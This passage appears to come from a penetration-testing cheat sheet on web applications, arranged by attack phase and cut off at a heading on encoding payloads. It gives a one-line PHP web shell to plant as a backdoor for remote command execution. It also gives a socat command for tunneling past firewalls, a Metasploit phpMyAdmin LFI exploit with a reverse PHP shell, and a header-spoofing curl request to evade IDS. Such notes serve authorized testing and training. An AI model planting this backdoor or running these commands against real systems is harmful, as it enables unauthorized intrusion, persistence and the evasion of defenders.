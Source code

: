 #### Web Scanning

* **Tool:** \[\[Burp Suite]]
* **Description:** Perform in-depth scans using Burp Suite to potentially identify vulnerabilities and sensitive data.

### Persistence

#### Backdoor in Web Application

*   **Tool:** \[\[Custom Scripts]]

    ```php
    <?php echo shell_exec($_GET['cmd']); ?>
    ```
* **Description:** Embeds a backdoor into an existing web application file, allowing remote command execution.

### Lateral Movement, Pivoting, and Tunneling

#### HTTP Tunneling

*   **Tool:** \[\[SoCat Cheat Sheet]]

    ```bash
    socat TCP-LISTEN:8080,fork,reuseaddr PROXY:<target_ip>:80,proxyport=8080
    ```
* **Description:** Creates a tunnel through HTTP to bypass firewalls or move laterally within a network.

#### Pivoting through Web Applications

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    use exploit/multi/http/phpmyadmin_lfi
    set RHOSTS <target_ip>
    set PAYLOAD php/reverse_php
    run
    ```
* **Description:** Exploits a web application vulnerability to establish a foothold and pivot to other internal network resources.

### Defense Evasion

#### HTTP Traffic Obfuscating

*   **Tool:** \[\[cURL]]

    ```bash
    curl -H "X-Forwarded-For: 127.0.0.1" http://<target_ip>/
    ```
* **Description:** Obfuscates the source of HTTP requests to evade detection by IDS/IPS systems.

#### Encoding Payloads
